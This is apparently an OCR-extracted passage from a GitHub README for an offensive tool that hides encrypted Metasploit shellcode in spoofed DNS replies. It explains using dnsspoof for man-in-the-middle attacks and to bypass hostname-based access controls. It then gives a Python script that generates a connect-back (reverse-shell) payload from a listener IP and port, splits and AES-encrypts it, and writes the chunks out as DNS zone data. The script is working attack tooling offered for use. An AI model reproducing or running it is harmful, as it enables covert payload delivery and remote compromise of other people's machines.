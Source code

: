 ```1.0.1.0 + 1.0.1.1 + 1.0.1.2 + 1.0.1.3 + 1.0.1.4 = 1.1.1.0, for instance```
from dnsspoof packets. Dnsspoof forges replies to arbitrary DNS address/pointer queries
on the LAN. This is useful in bypassing hostname-based access controls, or in implementing
a variety of man-in-the-middle attacks. The fake domain results are the encrypted shellcode
data as shown in the following image

![DnsZone](images/dns.png)

We automate this process with a Python script to make things more easily. Here you can find the main source code of the
script.

```python
from Payload import Payload
from Cipher import AESCipher
from Storage import FileData;
import argparse
import math


parser = argparse.ArgumentParser()
parser.add_argument('--lhost', required=True, help='Connectback IP')
parser.add_argument('--lport', required=True, help='Connectback Port')
parser.add_argument('--passphrase', required=True, help='passphrase')
parser.add_argument('--filepath', required=True, help='filepath')
parser.add_argument('--msfroot', default='/usr/share/metasploit-framework')
args = parser.parse_args()
strshell = Payload._create_shellcode(args)
count = 0
prefix = 0
obj = FileData(args.filepath)
cipher = AESCipher(args.passphrase)
for line in strshell.splitlines():
    broken = line.split(',')
    lens = len(broken)
    size = math.ceil((lens / 4))
    if size == 1:
        toWrite = ''
        for i in range(len(broken)):
            toWrite = toWrite + broken[i]
        obj.write(str(prefix), str(count), cipher.encrypt(toWrite))
        count = count + 1
    else:
        start = 0
        end = 4
        for i in range(0, size):
            toWrite = ''
            for j in range(start, end):
                toWrite = toWrite + broken[j]
            if count == 255:
                count = 0
                prefix = 1

            obj.write(str(prefix), str(count), cipher.encrypt(toWrite))
            count = count + 1
            start = start + 4
            if end + 4 > lens:
                end = lens
            else:
                end = end + 4
```
